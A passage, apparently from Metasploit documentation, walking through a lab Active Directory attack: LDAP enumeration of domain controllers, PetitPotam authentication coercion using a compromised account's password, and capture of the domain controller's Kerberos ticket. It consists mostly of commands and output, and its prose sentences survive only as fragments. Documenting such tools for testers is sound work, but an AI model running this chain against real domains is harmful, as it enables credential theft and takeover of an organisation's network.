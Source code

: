 domain controllers to remove from the list of potential targets.
```
msf6 auxiliary(gather/ldap_query) > set ACTION ENUM_DOMAIN_CONTROLLERS 
ACTION => ENUM_DOMAIN_CONTROLLERS
msf6 auxiliary(gather/ldap_query) > run
[*] Running module against 192.168.159.10

[*] Discovering base DN automatically
[+] 192.168.159.10:389 Discovered base DN: DC=msflab,DC=local
[+] 192.168.159.10:389 Discovered schema DN: DC=msflab,DC=local
CN=DC OU=Domain Controllers DC=msflab DC=local
==============================================

 Name                    Attributes
 ----                    ----------
 distinguishedname       CN=DC,OU=Domain Controllers,DC=msflab,DC=local
 dnshostname             DC.msflab.local
 name                    DC
 operatingsystem         Windows Server 2019 Standard
 operatingsystemversion  10.0 (17763)

[*] Auxiliary module execution completed
msf6 auxiliary(gather/ldap_query) >
```

### Exploitation
compromised domain account.
```
msf6 > use auxiliary/scanner/dcerpc/petitpotam 
msf6 auxiliary(scanner/dcerpc/petitpotam) > set LISTENER ws01.msflab.local
LISTENER => ws01.msflab.local
msf6 auxiliary(scanner/dcerpc/petitpotam) > set SMBUser aliddle
SMBUser => aliddle
msf6 auxiliary(scanner/dcerpc/petitpotam) > set SMBPass Password1!
SMBPass => Password1!
msf6 auxiliary(scanner/dcerpc/petitpotam) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 auxiliary(scanner/dcerpc/petitpotam) > run

[+] 192.168.159.10:445    - Server responded with ERROR_BAD_NETPATH which indicates that the attack was successful
[*] 192.168.159.10:445    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/dcerpc/petitpotam) >
```

computer account.
```
msf6 post(windows/manage/kerberos_tickets) > klist
Kerberos Cache
==============
id   host            principal               sname                             issued                     status  path
--   ----            ---------               -----                             ------                     ------  ----
411  192.168.159.10  DC$@MSFLAB.LOCAL        krbtgt/MSFLAB.LOCAL@MSFLAB.LOCAL  2023-08-23 09:32:46 -0400  active  /home/smcintyre/.msf4/loot/20230823151744_default_192.168.159.10_mit.kerberos.cca_307418.bin
407  192.168.159.10  WS01$@MSFLAB.LOCAL      krbtgt/MSFLAB.LOCAL@MSFLAB.LOCAL  2023-08-23 15:14:46 -0400  active  /home/smcintyre/.msf4/loot/20230823151735_default_192.168.159.10_mit.kerberos.cca_760842.bin

msf6 post(windows/manage/kerberos_tickets) > 
```
